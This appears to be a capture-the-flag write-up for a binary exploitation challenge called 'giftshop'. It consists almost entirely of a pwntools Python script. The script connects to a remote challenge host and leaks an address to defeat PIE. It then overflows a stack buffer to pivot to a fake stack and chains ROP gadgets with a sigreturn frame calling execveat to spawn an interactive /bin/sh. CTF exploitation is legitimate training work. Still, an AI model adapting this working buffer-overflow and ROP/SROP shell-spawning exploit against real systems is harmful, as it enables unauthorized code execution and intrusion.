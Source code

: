 # giftshop
Write Up

from pwn import *
import struct

#p = process('./giftshop')
p = remote('pwn01.grandprix.whitehatvn.com', 26129)

t = 0.05

def order(buys, addr, letter):
	p.sendline('1')
	sleep(t)
	p.sendline('n')
	sleep(t)
	for buy in buys:
		p.sendline(str(buy))
		sleep(t)
	p.sendline('6')
	sleep(t)
	p.sendline('y')
	sleep(t)
	p.sendline(addr)
	sleep(t)
	# overflow
	p.sendline(letter)
	sleep(t)

p.sendline('hhhh')
sleep(t)

p.recvuntil('come here !\n')
p.recv(2) # skip 0x
data_2030d8 = int(p.recv(12), 16)
pie_base = data_2030d8 - 0x2030d8
print '[*] pie_base : '+hex(pie_base)

free_got = 0x203018
p.sendline('kkkk')
sleep(t)

fgets_gadget = pie_base + 0x18b9
fake_stack = pie_base + 0x203900

payload = ''
payload += 'a'*0xc8
payload += p64(0)
payload += p64(fake_stack+0xd0)
payload += p64(fgets_gadget)
order([1], '/bin/sh\x00', payload)

pop_rax_ret = pie_base + 0x2267
pop_rdi_ret = pie_base + 0x225f
pop_rsi_ret = pie_base + 0x2261
pop_rdx_ret = pie_base + 0x2265
binsh = fake_stack - 0x300
leave_ret = pie_base + 0x19bc
syscall = pie_base + 0x2254

payload = ''
payload += p64(fake_stack - 0x300) # pop rbp
payload += p64(pop_rsi_ret) + p64(fake_stack - 0x300) # buf
payload += p64(pop_rdx_ret) + p64(0x200) # len
payload += p64(pop_rdi_ret) + p64(0) # stdin
payload += p64(pop_rax_ret) + p64(0) # read
payload += p64(syscall)
payload += p64(leave_ret)
payload += 'a'* (0xc8 - len(payload))
payload += p64(0)
payload += p64(fake_stack)
payload += p64(leave_ret)

p.sendline(payload)
sleep(t)

payload = ''
payload += '/bin/sh\x00' # dummy rbp
payload += p64(pop_rax_ret) + p64(15) # sig_return
payload += p64(syscall)
frame = SigreturnFrame(arch="amd64")
frame.rax = 322 # execveat
frame.rdi = 0
frame.rsi = binsh # /bin/sh
frame.rdx = 0
frame.r10 = 0
frame.r8 = 0
frame.rsp = syscall
frame.rip = syscall
payload += str(frame)

p.sendline(payload)
sleep(t)

p.interactive()

